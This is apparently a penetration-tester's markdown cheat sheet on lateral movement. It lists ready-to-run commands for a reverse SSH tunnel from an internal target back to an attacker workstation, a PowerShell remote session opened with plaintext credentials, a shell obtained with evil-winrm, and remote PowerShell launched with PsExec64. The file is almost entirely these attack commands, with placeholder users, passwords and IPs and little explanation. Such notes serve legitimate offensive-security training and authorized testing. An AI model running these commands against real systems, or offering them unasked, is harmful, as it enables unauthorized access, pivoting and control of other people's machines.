 # 06 - Lateral Movement

Index
- [SSH Tunneling](#SSH-Tunneling)
- [Windows New-PSSession](#Windows-New-PSSession)
- [Evil-winrm](#Evil-winrm)

## SSH Tunneling
Fron INTERNAL target to ATTACKER workstation:
``` bash
ssh -N -R 9000 $USER@$KALI
ssh -N -R 9000 sheliak@192.168.1.1
```

## Windows New-PSSession
``` powershell
$username = 'username';
$password = 'password';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.1.1 -Credential $credential                                 ## create a session
Enter-PSSession 1                                                                               ## login in session 1
```

## Evil-winrm
Linux tool to access a remote system via WinRM and obtain a shell.
``` bash
evil-winrm -i 192.168.163.249 -u 'username' -p 'password'
```

## PsExec64
``` powershell
./PsExec64.exe -i \\TARGET -u $DIMAIN\$USER -p "$PASSWORD" powershell
./PsExec64.exe -i \\192.168.1.1 -u TEST\username -p "password" powershell
```
